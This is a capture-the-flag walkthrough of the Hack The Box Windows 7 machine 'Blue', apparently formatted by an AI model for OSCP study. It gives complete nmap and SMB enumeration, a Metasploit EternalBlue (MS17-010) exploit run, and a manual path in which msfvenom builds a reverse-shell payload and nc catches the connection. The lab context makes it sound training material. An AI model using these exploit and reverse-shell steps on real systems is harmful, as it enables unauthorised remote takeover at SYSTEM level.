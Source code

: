 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
- **OS**: Windows 7 Professional SP1 (x64)
- **Exploit**: MS17-010 (ETERNALBLUE)
- **Privilege Escalation**: Not needed – initial shell is SYSTEM 🎯

---

## 🧭 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.40
```

### 🎯 Targeted Script & Version Detection
```bash
nmap -p 135,139,445 -sCV -oA scans/nmap-tcpscripts 10.10.10.40
```

**Open Ports:**
- `135` (MS RPC)
- `139` (NetBIOS)
- `445` [SMB](SMB)
- Several in `49152-49157`

### 🛑 Vulnerability Check for MS17-010
```bash
nmap -p 445 --script vuln -oA scans/nmap-smbvulns 10.10.10.40
```

Output confirms:
```
VULNERABLE: Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
```

---

## 📁 SMB Enumeration

### 🧭 Guest Enumeration
```bash
smbmap -H 10.10.10.40 -u "0xdf" -p "0xdf"
```

### 🔎 Check Shares with `smbclient`
```bash
smbclient //10.10.10.40/share
smbclient //10.10.10.40/users
```

> Both readable, but no interesting files – just default folders.

---

## 💣 Exploitation – EternalBlue via Metasploit

### 🚀 Use Exploit Module
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST 10.10.14.14
run
```

> ✅ Successful shell as `NT AUTHORITY\SYSTEM`

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### 🔄 Drop to Shell
```bash
meterpreter > shell
```

---

## 🏁 Flags

```bash
C:\Users\haris\Desktop> type user.txt
4c546aea************************

C:\Users\Administrator\Desktop> type root.txt
ff548eb7************************
```

---

## 🐍 Optional – Exploit with Python (for OSCP-like scenarios)

### ⚙️ Setup Python2 VirtualEnv for Impacket
```bash
sudo apt install virtualenv
cd /opt
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
virtualenv impacket-venv -p $(which python2)
source impacket-venv/bin/activate
pip install -r requirements.txt
pip install .
```

### 📦 Payload Generation
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f exe -o rev.exe
```

### 📤 Exploit Execution
```bash
python send_and_execute.py 10.10.10.40 rev.exe
```

### 🎧 Catch the Shell
```bash
rlwrap nc -lnvp 443
```

---

## 🧠 Lessons Learned

- MS17-010 is still widely useful in legacy environments.
- Metasploit is stable for this exploit, but Python tools offer good practice for manual setups.
- Always check for anonymous access and vulnerable SMB services.
- No privilege escalation needed: initial shell is SYSTEM.

---

Let me know if you'd like this exported as a Markdown or PDF report, or if you'd like to chain all walkthroughs into one HTB notebook! 📘💼